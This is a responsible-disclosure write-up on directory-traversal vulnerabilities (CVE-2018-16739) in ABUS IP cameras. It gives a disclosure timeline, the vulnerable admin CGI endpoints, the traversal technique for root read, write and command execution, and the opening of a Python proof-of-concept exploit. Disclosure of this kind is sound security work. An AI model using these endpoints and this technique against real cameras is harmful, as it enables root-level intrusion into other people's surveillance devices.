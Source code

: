 Those cameras were sold from 2010 to 2014.

## Timeline[⌗](#timeline)

* XX-09-2018: Discovery of vulnerabilities in lab environment
* XX-09-2018: Communication with [CCC e.V.](https://ccc.de/) for disclosure handling
* 26-11-2018: Initial contact with ABUS, no response
* 18-02-2019: Start of responsible disclosure process with ABUS
* 03-05-2019: Public Announcement by ABUS for a replacement program
* 07-05-2019: Publication of [CCC blogpost](https://www.ccc.de/en/updates/2019/update-nicht-verfugbar-hersteller-nicht-zu-erreichen)

This disclosure was picked up by German press shortly after: [Heise](https://www.heise.de/news/Sicherheitsluecken-in-IP-Kameras-Abus-bietet-Tauschprogramm-4419944.html), [Golem](https://www.golem.de/news/abus-ueberwachungskameras-austauschprogramm-statt-update-1905-141133.html), [SPIEGEL Online](https://www.spiegel.de/netzwelt/gadgets/abus-kameras-hersteller-bietet-wegen-sicherheitsluecken-austausch-an-a-1266524.html)

## Vulnerabilities[⌗](#vulnerabilities)

### CVE-2018-16739[⌗](#cve-2018-16739)

Authenticated read and write access through directory traversal with command execution

#### Description[⌗](#description)

Through directory traversal it is possible to utilize the file browser of the web frontend, which seems to be only for displaying file server content, for arbitrary read, write and execution. The browser can be used to read and write files outside the file server directory and to list the contents of any directory. This is done with root privileges.

The affected endpoints are:

* `/cgi-bin/admin/fileread?READ.filePath=<Path>` to read the specified file
* `/cgi-bin/admin/filewrite?SAVE.filePath=<Path>` to write to the specified file
* `/cgi-bin/admin/sdstate?action=filelistnas&directory=<Path>` to list a directory

#### Exploitation[⌗](#exploitation)

For arbitrary read and write, the exploitation of the endpoints is as simple as it gets, by prefixing the desired path with `../../../../` or by specifying an absolute path.

A trick is required to move from arbitrary write to code execution: if a bash script is placed in the CGI scripts folder of the web server and this script is called via a web browser, the shell script is executed with root privileges. This is also the trick applied on the POC exploit:

```
#!/usr/bin/env python3
import argparse
import requests
import urllib
import random
import huepy
def main():
    parser = argparse.ArgumentParser(description="exploit-16739")
    parser.add_argument('url', type=str, help='target url including port, eg http://127.0.0.1:8080')
    parser.add_argument("cmd", type=str, help="the cmd to exec, e.g. 'ls /'")
    args = parser.parse_args()
    referenceID = random.randint(1000, 9999)
    print(huepy.cyan("[~] Exploit for CVE-2018-16739"))
    print(huepy.cyan("    Your reference number is %i." % (referenceID)))
    prepareShell(args.url, referenceID, args.cmd)
    execCmd(args.url, referenceID)
    readCmd(args.url, referenceID)
    mrproper(args.url, referenceID)
```
